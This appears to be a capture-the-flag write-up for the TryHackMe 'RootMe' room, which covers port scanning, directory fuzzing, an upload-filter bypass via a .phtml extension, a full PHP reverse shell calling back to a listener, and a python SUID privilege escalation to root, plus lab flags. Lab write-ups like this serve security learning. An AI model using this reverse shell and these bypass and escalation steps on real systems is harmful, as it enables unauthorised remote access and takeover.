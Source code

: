 # RootMe

Question: 
`Scan the machine, how many ports are open?`

```sh
nmap -sV $ip                         

Nmap scan report for $ip
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Answer: 
`2` Ports are open.

Question:
`What version of Apache is running?`

Answer:
`2.4.29` is the correct Version.

Question:
`What service is running on port 22?`

Answer:
`SSH` is the service which is also the default Port for SSH.

Question:
`What is the hidden directory?`

```sh
ffuf -u http://$ip/FUZZ -w ../../webhacking/wordlists/directory_scanner/common.txt 
          ___     ___              ___
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://$ip/FUZZ
 :: Wordlist         : FUZZ: /home/kali/webhacking/wordlists/directory_scanner/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 2350ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3353ms]
    * FUZZ: .htaccess

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 3353ms]
    * FUZZ: .hta

[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 69ms]
    * FUZZ: css

[Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 79ms]
    * FUZZ: index.php

[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 74ms]
    * FUZZ: js

[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 69ms]
    * FUZZ: panel

[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 71ms]
    * FUZZ: server-status

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 80ms]
    * FUZZ: uploads

:: Progress: [4613/4613] :: Job [1/1] :: 542 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

Answer:
`/panel/` seems to be the hidden directory.

Question:
What is the content of `user.txt`?

To get this we need to get a reverse shell to the machine. For the reverse shell I used a simple PHP script but it seems that normal a `.php` file is blocked by the system. 
To bypass this we rename the `.php` file to `.phtml` which bypasses the security and let's us upload the reverse shell. 

Reverse Shell by PentestMonkey:
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.0.1';  // Your IP
$port = 9999;       // Your PORT
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?> 
```

NetCat Listener for rev shell:
```sh
nc -lnvp 9999
``` 

Answer:
`THM{y0u_g0t_a_sh3ll}` seems to be the content for `user.txt`.

Question:
Find a file with weird SUID permission:

For this we use a simple `find` command
```sh
find / -user root -perm /4000
```

Answer:
`/usr/bin/python` seems to be fun to play with.

The next Step is to escalate priviledges which is not so hard because we found an exploit for this on https://gtfobins.github.io/gtfobins/python/.
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")’
```

Question:
What is the content of `root.txt`?

Answer:
`THM{pr1v1l3g3_3sc4l4t10n}` is the content of `root.txt`.

